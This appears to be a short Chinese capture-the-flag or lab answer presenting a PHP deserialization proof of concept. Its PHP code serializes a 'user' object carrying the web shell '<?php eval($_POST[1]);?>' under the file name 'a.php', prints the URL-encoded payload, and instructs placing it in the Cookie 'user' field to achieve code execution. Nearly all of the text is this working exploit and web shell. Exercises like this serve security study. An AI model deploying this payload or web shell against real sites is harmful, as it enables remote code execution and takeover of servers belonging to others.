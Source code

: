 ### 答案

POC如下：

```php
<?php
class user{
	public $username;
	public $password;
	public function __construct($u,$p){
		$this->username=$u;
		$this->password=$p;
	}
}
echo urlencode(serialize(new user('a.php','<?php eval($_POST[1]);?>')));
```

```
O%3A4%3A%22user%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%22a.php%22%3Bs%3A8%3A%22password%22%3Bs%3A24%3A%22%3C%3Fphp+eval%28%24_POST%5B1%5D%29%3B%3F%3E%22%3B%7D
```

再放入Cookie 的 user 字段里

<img src=".\图片\Snipaste_2023-06-01_12-51-32.png" alt="Snipaste_2023-06-01_12-51-32" style="zoom:67%;" />

代码执行
